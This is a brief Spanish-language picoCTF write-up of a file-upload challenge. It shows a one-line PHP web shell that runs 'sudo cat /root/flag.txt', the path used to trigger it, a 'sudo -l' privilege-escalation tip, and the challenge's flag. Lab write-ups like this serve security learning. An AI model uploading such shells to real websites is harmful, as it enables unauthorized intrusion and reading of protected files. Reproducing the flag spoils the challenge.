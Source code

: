 #### Description

A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.

Additional details will be available after launching your challenge instance.

#### Consejos:
1. File upload was not sanitized.
2. Whenever you get a shell on a remote machine, check `sudo -l` .
   
* Nos da un link: http://standard-pizzas.picoctf.net:50585/
  Hacemos un archivo .php, le puse shell 2 y contiene:
  `<?php echo exec("sudo cat /root/flag.txt");?>`
* Subimos ese documento en la pagina:
  ![[Pasted image 20250415153707.png]]
   y nos sale que le pongamos uploads/shell2.php:
  ![[Pasted image 20250415153643.png]]

  `http://standard-pizzas.picoctf.net:52975/uploads/shell2.php`
   y nos da la sespuesta:
   ![[Pasted image 20250415153628.png]]
   


## Solución:
```
picoCTF{wh47_c4n_u_d0_wPHP_8ca28f94}
```
